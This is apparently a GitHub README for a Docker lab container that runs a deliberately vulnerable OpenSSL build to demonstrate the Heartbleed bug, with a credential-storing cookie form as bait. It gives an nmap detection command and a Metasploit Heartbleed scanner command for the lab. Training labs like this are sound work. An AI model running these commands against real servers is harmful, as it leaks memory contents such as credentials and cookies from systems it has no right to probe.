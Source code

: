 # Heartbleed Vulnerable Server
A Debian (Wheezy) Linux system with a vulnerable version of libssl and openssl and a web server to showcase CVS-2014-0160, a.k.a. Heartbleed.

# Overview
This docker container is based on Debian Jessie and has been modified to use a vulnerable version of libssl and openssl.

![Vulnerable Web Page](./docs/vulnerable-web-server.jpg)

A simple static web page is served via Apache 2. In order to provide some **juicy** data when exploiting the vulnerability we added a simple form that creates a **cookie** where are stored user credentials.
(We know that this is not a real case scenario but it is useful tu understand how informations are stored in the webserver)

# Usage
Install the container with `docker pull effesociety/heartbleed-vulnerable-server`

Run the container with a port mapping `docker run -d -p 8443:443 effesociety/heartbleed-vulnerable-server`

You should be able to access the web application at http://your-ip:8443/.

# Checking
The web server/vulnerable openssl/libssl version can be verified and exploited as shown below (using a Kali machine is recommended):</br>

``` sh
root@kali:~/heartbleed-vulnerable-server# nmap -sV -p 8443 --script=ssl-heartbleed your-ip
```

# Exploitation
``` sh
msfconsole
root@kali:/tmp# msfcli auxiliary/scanner/ssl/openssl_heartbleed RHOSTS=your-ip RPORT=8443 VERBOSE=true E
```
Here is an example of leaked info:
![Heartbleed Leaked Info](./docs/heartbleed-info-leaked.jpg)